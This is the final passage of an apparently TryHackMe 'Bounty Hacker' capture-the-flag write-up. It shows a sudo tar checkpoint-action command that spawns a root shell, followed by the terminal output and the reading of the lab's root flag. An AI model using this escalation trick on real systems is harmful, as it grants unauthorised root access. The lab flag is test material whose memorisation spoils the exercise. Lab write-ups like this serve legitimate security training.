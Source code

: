 ### Ok Let copy all 
```
sudo tar -cf /dev/null /dev/null --checkpoint=1 --checkpoint-action=exec=/bin/sh
```
```
lin@bountyhacker:~/Desktop$ sudo tar -cf /dev/null /dev/null --checkpoint=1 --checkpoint-action=exec=/bin/sh
tar: Removing leading `/' from member names
# whoami
root
#
```
## We Got root
```
lin@bountyhacker:~/Desktop$ sudo tar -cf /dev/null /dev/null --checkpoint=1 --checkpoint-action=exec=/bin/sh
tar: Removing leading `/' from member names
# whoami
root
# cd /root
# ls     
root.txt
# cat root.txt
THM{80UN7Y_h4cK3r}
#  
```
## Done 
# 😄
